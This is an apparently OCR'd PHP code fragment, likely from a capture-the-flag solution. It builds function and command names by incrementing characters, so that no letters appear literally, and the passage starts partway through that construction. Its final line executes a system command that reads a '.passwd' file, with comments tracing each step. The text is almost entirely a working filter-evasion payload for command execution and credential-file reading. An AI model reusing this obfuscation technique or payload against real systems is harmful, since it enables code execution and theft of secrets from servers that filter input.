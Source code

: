 ```
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'O'
$_____ .= $__;  // $_____ = "STRTO"
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'L'
$_____ .= $__;  // $_____ = "STRTOL"
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'O'
$_____ .= $__;  // $_____ = "STRTOLO"
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'W'
$_____ .= $__;  // $_____ = "STRTOLOW"
$__=$_;
++$__;++$__;++$__;++$__;  // $__ = 'E'
$_____ .= $__;  // $_____ = "STRTOLOWE"
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'R'
$_____ .= $__;  // $_____ = "STRTOLOWER"
$__ = $_;

$____ = ''; 
++$__;++$__;  // $__ = 'C'
$____ .= $__;  // $____ = 'C'
$__ = $_;
$____ .= $__;  // $____ = "CA"
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'T'
$____ .= $__;  // $____ = "CAT"
$__ = $_;

$______ = '.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'P'
$______ .= $__;  // $______ = ".P"
$__ = $_;
$______ .= $__;  // $______ = ".PA"
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'S'
$______ .= $__;  // $______ = ".PAS"
$______ .= $__;  // $______ = ".PASS"
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'W'
$______ .= $__;  // $______ = ".PASSW"
$__ = $_;
++$__;++$__;++$__;  
$______ .= $__;  // $______ = ".PASSWD"
$__ = $_;
$__________ = $____." ".$______ ;  // $__________ = "CAT"." ".".PASSWD" = "CAT .PASSWD"
$___($_____($__________))  // SYSTEM(STRTOLOWER("CAT .PASSWD")) 
```
